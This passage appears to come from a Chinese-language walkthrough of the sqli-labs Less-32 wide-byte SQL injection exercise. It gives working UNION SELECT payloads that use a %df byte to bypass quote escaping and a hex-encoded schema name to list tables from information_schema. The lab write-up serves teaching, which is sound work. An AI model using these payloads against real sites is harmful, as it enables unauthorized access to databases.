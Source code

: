 ```sql
Copy ?id=-1%df' UNION SELECT 1,database(),3 --+
```

[![img](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less32-宽字节注入.assets/1774310-20201112132250725-1723443195.png)](https://img2020.cnblogs.com/blog/1774310/202011/1774310-20201112132250725-1723443195.png)
 爆表名，注意此处数据库名要用十六进制 (HEX) 编码替代，避免单引号的使用。

```sql
Copy ?id=-1%df' UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema=0x7365637572697479--+
```

[![img](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less32-宽字节注入.assets/1774310-20201112132531385-1191565179.png)](https://img2020.cnblogs.com/blog/1774310/202011/1774310-20201112132531385-1191565179.png)
 爆字段名。
